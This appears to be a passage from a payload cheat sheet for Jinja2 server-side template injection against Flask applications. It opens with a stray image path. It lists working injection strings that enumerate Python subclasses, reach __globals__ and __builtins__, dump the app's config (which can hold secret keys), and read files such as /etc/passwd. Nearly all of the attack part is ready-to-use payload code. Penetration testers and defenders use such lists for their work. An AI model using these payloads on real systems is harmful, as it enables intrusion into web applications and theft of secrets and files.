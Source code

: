 Jinja2 is used by Python Web Frameworks such as Django or Flask.
The above injections have been tested on a Flask application.

### Jinja2 - Template format

```python
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
  {% endfor %}
  </ul>
{% endblock %}

```

### Jinja2 - Debug Statement

If the Debug Extension is enabled, a `{% debug %}` tag will be available to dump the current context as well as the available filters and tests. This is useful to see what’s available to use in the template without setting up a debugger.

```python
<pre>{% debug %}</pre>
```

Source: https://jinja.palletsprojects.com/en/2.11.x/templates/#debug-statement

### Jinja2 - Dump all used classes

```python
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

Access `__globals__` and `__builtins__`:

```python
{{ self.__init__.__globals__.__builtins__ }}
```

### Jinja2 - Dump all config variables

```python
{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```

### Jinja2 - Read remote file

```python
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
